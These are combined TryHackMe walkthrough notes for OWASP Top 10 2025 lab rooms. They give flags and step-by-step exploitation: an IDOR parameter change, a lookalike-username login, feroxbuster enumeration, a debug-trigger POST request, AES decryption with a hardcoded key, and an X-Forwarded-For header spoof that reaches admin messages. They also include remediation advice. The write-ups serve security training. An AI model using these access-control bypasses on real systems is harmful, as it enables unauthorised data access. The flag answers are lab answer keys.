# Final Combined Writeup

This file combines all completed writeups:
- 1.md (IAAA Failures)
- 2.md (Application Design Flaws)
- 3.md (Insecure Data Handling)

---

# OWASP Top 10 2025: IAAA Failures Walkthrough Notes | TryHackMe

Author: w4nn4d13  
Date: 15 April 2026

## Task 2: What is IAAA?

Question: What does IAAA stand for?  
Answer: Identity, Authentication, Authorisation, Accountability

---

## Task 3: A01 Broken Access Control

Question: If you do not get access to more roles but can view another user's data, what type of privilege escalation is this?  
Answer: Horizontal

Question: What is the note found when viewing the account with more than $1 million?  
Answer: THM{Found.the.Millionare!}

Solution path used:

    ?id=7

Evidence:



---

## Task 4: A07 Authentication Failures

Question: What is the flag on the admin user's dashboard?  
Answer: THM{Account.confusion.FTW!}

Solution summary:
1. Register a lookalike username: aDmiN
2. Log in with the created account
3. Access the account dashboard and capture the flag

Evidence:





---

## Task 5: A09 Logging and Alerting Failures

Question: It looks like an attacker tried brute-force. What is the attacker IP?  
Answer: 203.0.113.45

Question: What username was associated with successful access?  
Answer: admin

Question: What action/endpoint did the attacker try with that account?  
Answer: supersecretadminstuff

### Evidence Screenshots


---

## Final Notes

This room demonstrates how weak access control, account confusion, and poor alerting can chain together into account compromise and sensitive endpoint access.


---

# OWASP Top 10 2025: Application Design Flaws (TryHackMe)

Author: w4nn4d13  
Updated: 15 April 2026  
Estimated read time: 20 min

## Introduction

After exploring IAAA (Identity, Authentication, Authorization, and Accountability) failures in the previous room, this room was the next major step because it focuses on weaknesses that are often architectural. Unlike many implementation bugs, design flaws are usually introduced early and become expensive to fix later.

This TryHackMe room covers four categories tied to weak foundations:

- AS02: Security Misconfigurations
- AS03: Software Supply Chain Failures
- AS04: Cryptographic Failures
- AS06: Insecure Design

What makes these categories dangerous is that they are systemic. They are not always one bad line of code, but often weak assumptions across APIs, dependencies, crypto usage, and trust boundaries.

---

## AS02: Security Misconfigurations

### Security Misconfigurations

### What It Is

Security misconfigurations happen when systems are deployed with unsafe defaults, overexposed services, verbose debugging, or weak permission boundaries.

### Why It Matters

Attackers use misconfigurations for fast reconnaissance. Internal stack traces, leaked debug objects, and endpoint overexposure reduce attacker effort and accelerate exploitation.

### Challenge

Navigate to MACHINE_IP:5002. The User Management API appears to leak too much information.



### Answer the questions below

What is the flag?  
THM{V3RB0S3_3RR0R_L34K}

### Step-by-Step Exploitation Flow (Using Feroxbuster)

Step 1: Enumerate the web root for API-related routes.

```bash
feroxbuster -u http://MACHINE_IP:5002 \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -x php,txt,html,js,json
```

Step 2: Enumerate discovered API base paths.

```bash
feroxbuster -u http://MACHINE_IP:5002/api \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -x php,txt,html,js,json
```

Step 3: Verify normal endpoint behavior first.

```bash
curl http://MACHINE_IP:5002/api/user/123
```



Step 4: Trigger malformed input to force exception path.

```bash
curl http://MACHINE_IP:5002/api/user/john
```

Step 5: Capture verbose leak and extract flag from debug context.



---

## AS03: Software Supply Chain Failures

### Software Supply Chain Failures

### What It Is

Supply chain failures occur when applications rely on compromised, outdated, or unverified components and build workflows.

### Why It Matters

A single vulnerable helper library or hidden debug pathway can expose sensitive internals without attacking core business logic directly.

### Challenge

Navigate to MACHINE_IP:5003. The app imports an old lib/vulnerable_utils.py component.



### Answer the questions below

What is the flag?  
THM{SUPPLY_CH41N_VULN3R4B1L1TY}

### Vulnerable Source Snippet Used in the Challenge



```python
from flask import Flask, render_template, request, jsonify
import sys
import os

# Import from local unverified library
sys.path.insert(0, os.path.join(os.path.dirname(__file__), 'lib'))
from vulnerable_utils import process_data, format_output, debug_info

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/api/process', methods=['POST'])
def process():
    """Process user input using third-party library"""
    try:
        data = request.json.get('data', '')
        if not data:
            return jsonify({'error': 'Missing data parameter'}), 400

        # Check for debug mode 
        if data == 'debug':
            return jsonify(debug_info())

        processed = process_data(data)
        formatted = format_output(processed)

        return jsonify({
            'result': formatted,
            'status': 'success'
        })
    except Exception as e:
        return jsonify({'error': str(e)}), 500

@app.route('/api/health')
def health():
    """Health check endpoint"""
    return jsonify({
        'status': 'healthy',
        'version': '1.0.0'
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

### Step-by-Step Exploitation Flow (Using Feroxbuster)

Step 1: Enumerate API endpoints.

```bash
feroxbuster -u http://MACHINE_IP:5003/api \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -x php,txt,html,js,json
```

Step 2: Send crafted request to the process endpoint.

```bash
curl -X POST http://MACHINE_IP:5003/api/process \
  -H "Content-Type: application/json" \
  -d '{"data":"debug","debug":"true"}'
```

Step 3: Read debug response and capture the flag.



---

## AS04: Cryptographic Failures

### Cryptographic Failures

### What It Is

Cryptographic failures happen when encryption is weak, misused, or key handling is broken.

### Why It Matters

If keys are hardcoded or exposed, encryption no longer protects confidentiality.

### Challenge

Navigate to MACHINE_IP:5004. Find the key and decrypt the file.


### Answer the questions below

What is the flag?  
THM{CRYPTO_FAILURE_H4RDCOD3D_K3Y}

### Step-by-Step Exploitation Flow (Using Feroxbuster)

Step 1: Enumerate for static resources and script files.

```bash
feroxbuster -u http://MACHINE_IP:5004 \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -x php,txt,html,js,json
```

Step 2: Inspect source and locate encrypted blob + decrypt script path.




Step 3: Recreate decryption logic locally.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

# Base64 encrypted data
ciphertext_b64 = "Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe"

# Secret key (16 bytes for AES-128)
key = b"my-secret-key-16"

# Decode Base64
ciphertext = base64.b64decode(ciphertext_b64)

# Decrypt using AES-128-ECB
cipher = AES.new(key, AES.MODE_ECB)
plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)

print("Decrypted text:", plaintext.decode())
```

Step 4: Execute script and extract flag.



---

## AS06: Insecure Design

### Insecure Design

### What It Is

Insecure design appears when flawed trust assumptions are built into architecture and workflow logic.

### Why It Matters

These flaws usually require redesign, not small fixes, because the trust model itself is broken.

### Challenge

Navigate to MACHINE_IP:5005. Have they assumed only mobile devices can access it?

### Answer the questions below

What is the flag?  
THM{1NS3CUR3_D35IGN_4SSUMPT10N}

### Practical Command Flow and Output

Step 1: Run feroxbuster on the API root and confirm the discovered path.

```bash
$ feroxbuster -u http://10.49.136.27:5005/api/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -s 200,201,202,204,301,302,307,401,403,405 \
  -t 50

200      GET       17l       29w      276c http://10.49.136.27:5005/api/users
```

Step 2: Re-run with default wordlist profile and verify the same discovery.

```bash
$ feroxbuster -u http://10.49.136.27:5005/api/

200      GET       17l       29w      276c http://10.49.136.27:5005/api/users
```

Step 3: Access exposed user/admin resources.

```bash
$ curl http://10.49.136.27:5005/api/users/admin
```





Step 4: Pull admin messages endpoint directly with the header used during testing.

```bash
$ curl -i http://10.49.136.27:5005/api/messages/admin \
  -H "X-Forwarded-For: 127.0.0.1"

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.14
Content-Type: application/json

{
  "messages": [
    {
      "content": "Admin panel access key: THM{1NS3CUR3_D35IGN_4SSUMPT10N}",
      "from": "system"
    }
  ],
  "user": "admin"
}
```

Step 5: Confirm the same flag from UI evidence.







---

## Conclusion

Security design failures across AS02, AS03, AS04, and AS06 share the same root issue: weak foundations. You cannot add security at the end and expect resilience.

Secure systems start with:

- clear security requirements,
- realistic threat assumptions,
- controlled configurations,
- verified dependencies,
- and proper cryptographic design.

---

## Key Takeaways from Each Category

### AS02: Security Misconfigurations

Verbose error handling leaks reconnaissance-grade data. Production output must be minimal and safe.

### AS03: Software Supply Chain Failures

Unverified or legacy dependency logic can expose internals immediately under crafted input.

### AS04: Cryptographic Failures

Hardcoded client-accessible keys nullify confidentiality even when encryption appears present.

### AS06: Insecure Design

Client/device assumptions are not access control. Authorization must be enforced server-side per request.

---

## The Bigger Picture: Design Flaws in the AI Era

As teams adopt AI, design mistakes scale faster:

- prompt injection risks,
- blind trust in model output,
- poisoned third-party models,
- and overprivileged automation agents.

AI systems must be treated as untrusted components until validated and continuously monitored.

---

## Critical Lessons for Developers and Security Teams

1. Security must be designed in, not bolted on.
2. Default settings are convenience settings, not security settings.
3. Trust nothing by default, especially client-controlled input.
4. Complexity increases attack surface.
5. Logging is useful only when paired with detection and response.
6. Threat modeling must be continuous, not one-time.

---

## Practical Remediation Checklist

### Security Misconfigurations

- Remove unsafe defaults.
- Hide stack traces in production.
- Reduce exposed services and endpoints.

### Supply Chain Security

- Keep an SBOM.
- Pin and scan dependency versions.
- Verify build artifacts and pipeline integrity.

### Cryptographic Implementation

- Do not hardcode secrets.
- Use managed key services.
- Enforce modern encryption and key rotation.

### Secure Design

- Authenticate and authorize every sensitive endpoint.
- Enforce least privilege.
- Abuse-case test API workflows and edge cases.

---

## Connection to Security+ and Career Development

This room maps to practical security domains:

- security architecture,
- vulnerability management,
- secure operations,
- and incident-ready monitoring.

Hands-on skills from this room apply directly to analyst, pentester, and security engineering roles.

---

## Final Thoughts

Application design flaws are dangerous because they often look harmless in isolation. A single debug leak, weak dependency path, hardcoded key, or unprotected endpoint can become part of a full compromise chain.

The best time to fix these issues is at design time. The second-best time is now.

---

## Moving Forward

Next room in the module: OWASP Top 10 2025 Insecure Data Handling  
https://tryhackme.com/room/owasptopten2025three/

Security is not a feature added later. It is a quality designed from the beginning.

---

## Room Stats

- Categories covered: 4/10
- Flags captured: 4/4
- Key skills gained: config auditing, dependency risk analysis, crypto assessment, API trust-boundary testing
- Tools used: Feroxbuster, Browser DevTools, Burp/cURL, Python (PyCryptodome)
- Real-world parallels: Uber S3 exposure, SolarWinds supply chain compromise, Clubhouse API trust failure


---

# TryHackMe: OWASP Top 10 2025 - Insecure Data Handling

Author: w4nn4d13  
Updated: 15 April 2026  
Room: https://tryhackme.com/room/owasptopten2025three/

## Executive Summary

This walkthrough explores three high-impact vulnerability classes from the OWASP Top 10 2025 theme. Across all tasks, the same core issue appears repeatedly: unsafe handling of untrusted data.

Covered tasks:

- A04 Cryptographic Failures
- A05 Injection (SSTI)
- A08 Software and Data Integrity Failures (Insecure Deserialization)

The room demonstrates how weak cryptography, template evaluation, and insecure object loading can lead to sensitive data exposure and code execution paths.

---

## Task 2: A04 - Cryptographic Failures

### Challenge Overview

The challenge provides encrypted notes protected with a weak XOR mechanism and a short key pattern hint:

- The key starts with `KEY_`
- It includes letters and numbers
- One character must be guessed

### Approach and Reasoning

XOR encryption is weak when:

- The key is short
- The same key is reused
- Output structure gives plaintext clues

By testing candidate suffixes and validating readable outputs, the correct key was identified as:

**KEY1**

### Flag Obtained

**THM{WEAK_CRYPTO_FLAG}**

### Evidence

